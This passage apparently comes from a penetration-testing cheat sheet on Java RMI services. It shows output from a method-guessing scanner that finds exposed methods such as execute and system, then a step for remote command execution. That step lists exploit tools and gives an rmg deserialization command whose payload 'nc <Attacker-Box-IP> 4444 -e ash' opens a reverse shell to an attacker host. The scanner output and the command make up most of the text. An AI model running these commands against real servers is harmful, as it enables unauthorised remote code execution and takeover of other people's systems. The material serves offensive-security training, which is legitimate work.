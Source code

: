 ```
	     [+] Reading method candidates from internal wordlist rmg.txt
	     [+] 	752 methods were successfully parsed.
	     [+] Reading method candidates from internal wordlist rmiscout.txt
	     [+] 	2550 methods were successfully parsed.
	     [+]
	     [+] Starting Method Guessing on 3281 method signature(s).
	     [+] 	MethodGuesser is running:
	     [+] 		--------------------------------
	     [+] 		[ plain-server2  ] HIT! Method with signature String execute(String dummy) exists!
	     [+] 		[ plain-server2  ] HIT! Method with signature String system(String dummy, String[] dummy2) exists!
	     [+] 		[ legacy-service ] HIT! Method with signature void logMessage(int dummy1, String dummy2) exists!
	     [+] 		[ legacy-service ] HIT! Method with signature void releaseRecord(int recordID, String tableName, Integer remoteHashCode) exists!
	     [+] 		[ legacy-service ] HIT! Method with signature String login(java.util.HashMap dummy1) exists!
	     [+] 		[6562 / 6562] [#####################################] 100%
	     [+] 	done.
	     [+]
	     [+] Listing successfully guessed methods:
	     [+] 	- plain-server2 == plain-server
	     [+] 		--> String execute(String dummy)
	     [+] 		--> String system(String dummy, String[] dummy2)
	     [+] 	- legacy-service
	     [+] 		--> void logMessage(int dummy1, String dummy2)
	     [+] 		--> void releaseRecord(int recordID, String tableName, Integer remoteHashCode)
	     [+] 		--> String login(java.util.HashMap dummy1)


➤ Step 3. Exploit the insecure JAVA RMI APIs identified in the previous step to remotely execute commands (RCE)

          - Notes:
            + Multiple exploits/attacks exist depending on the configuration of the Java RMI services available.
            + Several tools can be used:
              > Remote-Method-Guesser - Java RMI Vulnerability Scanner (Github - https://github.com/qtc-de/remote-method-guesser)
              > Beanshooter - MX enumeration and attacking tool (Github - https://github.com/qtc-de/beanshooter)
              > Metasploit framework (exploit/multi/misc/java_rmi_server)
              > ...

           + Example 1 - Abusing well known RMI components with the Java RMI vulnerability scanner "RMG"
             -------------------------------------------------------------------------------------------
             Whereas modern RMI servers apply deserialization filters on these well known RMI components (JEP290),older servers may
             still be vulnerable to deserialization attacks. The tool "Remote-Method-Guesser" allows to verify this by using the serial action,
             that can perform deserialization attacks on the Activator, Distributed Garbage Collector (DGC) or the RMI registry.

             $ rmg serial <TARGET-IP> <TARGET-PORT> CommonsCollections6 'nc <Attacker-Box-IP> 4444 -e ash' --component reg
             [+] Creating ysoserial payload... done.
             [+] Attempting deserialization attack on RMI Registry endpoint...
             [+] 	Caught ClassCastException during deserialization attack.
             [+] 	Deserialization attack was probably successful :)

```